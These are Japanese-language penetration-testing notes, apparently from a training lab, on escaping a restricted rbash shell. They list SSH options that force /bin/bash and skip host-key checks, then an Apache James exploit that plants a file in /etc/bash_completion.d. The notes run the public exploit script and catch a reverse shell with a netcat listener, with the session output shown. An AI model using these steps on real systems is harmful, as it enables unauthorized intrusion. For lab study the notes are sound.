

# rbash

* rbashで実行されていることを確認する

```
file $SHELL
```

```
echo $SHELL
```

```
echo $PATH
```

* rbashの設定を確認する

```bash
# kali rbashの制限内容の確認
man -P cat rbash
```

* /で始まらない組み込みシェルを確認する

```bash
help
```


* バッシュ強制指定してSSHする

  ```
  ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" ryuu@10.11.1.72 -p 22 -t /bin/bash
  ```


* 脆弱性を利用する

  #### Apach_james

  ```
  searchsploit -p 35513
  ```

  * `/etc/bash_completion.d`ディレクトリにあるファイルは、rbashが初期化される前に実行される

  * 「.../.../.../.../etc/bash_completion.d」ユーザに送る不正メールは、/etc/bash_completion.dディレクトリ内に配置される

    

  * リバースシェルをPoCに再設定する

  

  ```
  python apache_james_rce.py 10.11.1.72
  ```

  ```
  ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" ryuu@10.11.1.72 -p 22
  ```

  ```bash
  nc -lvnp 443
  listening on [any] 443 ...
  connect to [192.168.119.139] from (UNKNOWN) [10.11.1.72] 36213
  ryuu@beta:~$ whoami
  whoami
  Command 'whoami' is available in '/usr/bin/whoami'
  The command could not be located because '/usr/bin' is not included in the PATH environment variable.
  whoami: command not found
  ryuu@beta:~$ hostname 
  hostname
  Command 'hostname' is available in '/bin/hostname'
  The command could not be located because '/bin' is not included in the PATH environment variable.
  hostname: command not found
  ryuu@beta:~$ echo $0
  echo $0
  /bin/bash
  ryuu@beta:~$ 
  
  ```

  
